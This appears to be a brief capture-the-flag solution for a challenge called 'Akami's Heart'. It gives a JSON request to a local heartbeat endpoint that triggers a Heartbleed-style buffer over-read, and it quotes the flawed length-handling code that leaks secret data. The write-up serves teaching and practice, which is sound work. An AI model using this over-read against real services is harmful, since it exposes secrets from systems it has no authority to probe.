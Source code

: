 # Akami's Heart

Challenge Author: yappare

The vulnerable endpoint is:

```
POST http://localhost:9090/heartbeat
```

Send JSON:

```
{"payload":"A","length":400}
```

This is because you can control `extra_needed` with `length` to read secret_blob up to `extra_needed` bytes.

```
        extra_needed = length - len(payload_bytes)
        if extra_needed <= 0:
            resp = payload_bytes[:length]
        else:
            resp = payload_bytes + secret_blob[:extra_needed]
```